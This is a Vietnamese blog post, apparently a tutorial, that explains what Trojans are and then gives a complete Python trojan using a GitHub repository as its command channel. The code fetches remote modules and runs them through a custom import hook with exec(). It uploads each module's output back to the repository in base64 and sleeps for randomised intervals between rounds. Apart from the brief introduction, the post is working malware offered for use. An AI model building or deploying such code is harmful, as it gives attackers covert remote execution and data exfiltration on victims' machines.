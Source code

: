 ```yaml
---
author: "ybvy"
layout: post
title:  "How to create Trojan tool with Github"
date: 2025-03-18
comments: true
description: Cách tạo Trojan tool với Github
categories: introduce
toc: true
tags: 
- security
- python
---
```


# Giới thiệu
Trojan (hay Trojan Horse – "con ngựa thành Troy") là một loại phần mềm độc hại (malware) giả dạng phần mềm hợp pháp hoặc hữu ích để đánh lừa người dùng tải về và chạy nó. Khi được kích hoạt, Trojan có thể thực hiện nhiều hoạt động độc hại như:

* Đánh cắp thông tin cá nhân (mật khẩu, tài khoản ngân hàng, dữ liệu cá nhân).
* Tạo cửa hậu (backdoor) để tin tặc điều khiển máy tính từ xa.
* Tự động tải xuống và cài đặt phần mềm độc hại khác.
* Chiếm quyền kiểm soát thiết bị để thực hiện tấn công mạng.

---
# Cách Trojan hoạt động
Trojan không tự nhân bản như virus hay sâu máy tính (worm), mà thường lây lan thông qua:

* Email lừa đảo chứa tệp đính kèm độc hại.
* Phần mềm bẻ khóa (crack), keygen, game lậu có chứa mã độc.
* Quảng cáo giả mạo trên web dẫn đến tải phần mềm độc hại.
* USB hoặc thiết bị lưu trữ bên ngoài bị nhiễm Trojan.

---
# Code Trojan with Github

>Bash
{% highlight bash %}
bhptrojan
├── config
│   └── abc.json
├── data
├── git_trojan.py
├── modules
│   ├── dirlister.py
│   └── enviroment.py
└── my_token.txt
{% endhighlight %}

>Python
{% highlight python lineos %}
import base64
import github3
import github3.repos
import importlib.util
import json
import random
import sys
import threading
import time
from datetime import datetime
from github3.repos.contents import Contents

def github_connect(token_path='path_to_personal_access_token_file', owner='owner', repo='repo_name') -> github3.repos.Repository:
    """Connects to the GitHub repository."""
    with open(token_path) as f:
        token = f.read().strip()
    return github3.login(token=token).repository(owner, repo)

def get_file_content(dir_name, module_name, repo: github3.repos.Repository) -> bytes:
    """Fetch file content from GitHub repository."""
    file: Contents = repo.file_contents(f"{dir_name}/{module_name}")
    return file.decoded

class GitImporter:
    """Custom module loader to fetch and execute modules from GitHub."""
    def __init__(self, repo):
        self.current_module_code = ""
        self.repo = repo

    def find_module(self, name, path=None):
        print(f"[*] Attempting to retrieve {name}")
        try:
            new_lib = get_file_content('modules', f'{name}.py', self.repo)
            if new_lib:
                self.current_module_code = new_lib.decode('utf-8')  
                return self
        except Exception as e:
            print(f"[!] Error retrieving module {name}: {e}")
        return None

    def load_module(self, name):
        if name in sys.modules:
            return sys.modules[name]

        spec = importlib.util.spec_from_loader(name, loader=None)
        new_module = importlib.util.module_from_spec(spec)

        try:
            exec(self.current_module_code, new_module.__dict__)
        except SyntaxError as e:
            print(f"[!] Syntax error in module {name}: {e}")
            return None 

        sys.modules[name] = new_module
        return new_module

class Trojan:
    """Main Trojan class to manage module execution."""
    def __init__(self, id, repo):
        self.id = id
        self.config_file = f'{id}.json'
        self.data_path = f'data/{id}/'
        self.repo = repo

    def get_config(self):
        """Fetches the configuration file and imports required modules."""
        try:
            config_json = get_file_content('config', self.config_file, self.repo)
            config = json.loads(config_json)

            for task in config:
                if task['module'] not in sys.modules:
                    __import__(task['module']) 

            return config
        except Exception as e:
            print(f"[!] Error loading config: {e}")
            return []

    def module_runner(self, module):
        """Runs a specified module and stores the result."""
        try:
            result = sys.modules[module].run()
            self.store_module_result(result)
        except Exception as e:
            print(f"[!] Error running module {module}: {e}")

    def store_module_result(self, data):
        """Stores module execution results in the repository."""
        try:
            message = datetime.now().isoformat()
            remote_path = f'data/{self.id}/{message}.data'
            bindata = bytes('%r' % data, 'utf-8')
            self.repo.create_file(remote_path, message, base64.b64encode(bindata))
        except Exception as e:
            print(f"[!] Error storing result: {e}")

    def run(self):
        """Continuously fetches config and runs tasks."""
        while True:
            config = self.get_config()
            for task in config:
                threading.Thread(
                    target=self.module_runner,
                    args=(task['module'],)
                ).start()
                time.sleep(random.randint(1, 10))

            time.sleep(random.randint(30*60, 3*60*60))

repo = github_connect()

if __name__ == "__main__":
    sys.meta_path.append(GitImporter(repo))
    Trojan('abc', repo).run()
{% endhighlight %}



<script src="https://giscus.app/client.js"
        data-repo="ybvy/ybvy.github.io"
        data-repo-id="R_kgDONiHcVw"
        data-category="Announcements"
        data-category-id="DIC_kwDONiHcV84ClolG"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="bottom"
        data-theme="preferred_color_scheme"
        data-lang="vi"
        crossorigin="anonymous"
        async>
</script>